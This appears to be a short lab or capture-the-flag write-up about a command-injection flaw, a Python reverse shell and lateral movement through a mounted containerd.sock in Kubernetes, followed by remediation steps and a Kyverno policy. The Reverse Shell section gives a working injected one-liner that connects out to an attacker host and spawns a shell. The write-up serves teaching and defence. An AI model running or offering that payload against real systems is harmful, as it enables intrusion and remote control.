




## Command Injection

this website is Vulnerable to **Command Injection** attack


---
## Reverse Shell

we use **Python** to start a reverse shell to make it easier to navigate 

```
; python3 -c 'socket=__import__("socket");os=__import__("os");pty=__import__("pty");s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```


---
## Sock



When the `containerd.sock` (or other equivalent) is mounted inside a container, it allows the container to interact with container runtime. Therefore an attacker can execute any command in any container present in the cluster. This allows an attacker to do some lateral movement across the cluster. 

---
## Exploitation

Following the steps on [EXPLOIT_CONTAINERD_SOCK](https://kubehound.io/reference/attacks/EXPLOIT_CONTAINERD_SOCK/) we are able to list all images and consequentially interact with them using ```exec```



---
## Remediation

### 1. Command Injection & Reverse Shell Prevention

- **Avoid Shell Invocation:**
    
    - Do not pass untrusted input directly to system shell execution functions (`system()`, `exec()`, `eval()`).
        
    - Use native language APIs or pass parameters as a structured array without spawning a subshell context (e.g., set `shell=False` in Python's `subprocess`).
        
- **Strict Input Validation:**
    
    - Enforce strict allow-listing for all user inputs.
        
    - Validate data against expected character sets, types, and formats (e.g., alphanumeric regex) prior to processing.
        
- **Egress Network Filtering:**
    
    - Implement strict outbound firewall rules and Kubernetes `NetworkPolicy` controls to block unexpected egress connections.
        
    - Restricting outbound connections prevents reverse shells from connecting back to external attacker listeners.
        
- **Least Privilege Execution:**
    
    - Configure application containers to run as non-privileged UIDs (`securityContext.runAsNonRoot: true`).
        
    - Enforce read-only root filesystems (`readOnlyRootFilesystem: true`) and drop unnecessary capabilities (`capabilities.drop: ["ALL"]`).
        

### 2. Container Runtime Socket Exposure (`containerd.sock`)

- **Eliminate Socket Volume Mounts:**
    
    - Remove `/run/containerd/containerd.sock` and `/var/run/docker.sock` from Pod volume specifications unless absolutely essential (e.g., dedicated CI/CD builders running isolated jobs).
        
- **Deploy a Daemon Socket Proxy:**
    
    - If runtime metrics or read-only socket access is required, deploy a security daemon proxy (such as `docker-socket-proxy`).
        
    - Restrict proxy routes to allow only read-only `GET` endpoints while blocking write operations (`POST`, `DELETE`), container `exec`, and volume attachments.
        
- **Enforce Kubernetes Policy Engines:**
    
    - Utilize policy engines such as **Kyverno** or **OPA Gatekeeper** to automatically block manifests attempting to mount host runtime socket paths.
        

> [!EXAMPLE] Kyverno Policy Example
> 
> ```
> apiVersion: kyverno.io/v1
> kind: ClusterPolicy
> metadata:
>   name: disallow-container-sockets
> spec:
>   validationFailureAction: Enforce
>   rules:
>     - name: check-containerd-sock
>       match:
>         any:
>         - resources:
>             kinds:
>               - Pod
>       validate:
>         message: "Mounting containerd or docker sockets is strictly forbidden."
>         pattern:
>           spec:
>             =(volumes):
>               - =(hostPath):
>                   path: "!*/containerd.sock"
> ```

- **Use Sandboxed Runtimes:**
    
    - Implement isolated container runtimes (e.g **gVisor** or **Kata Containers**) or rootless container setups so that even if socket access occurs, host system escalation is prohibited.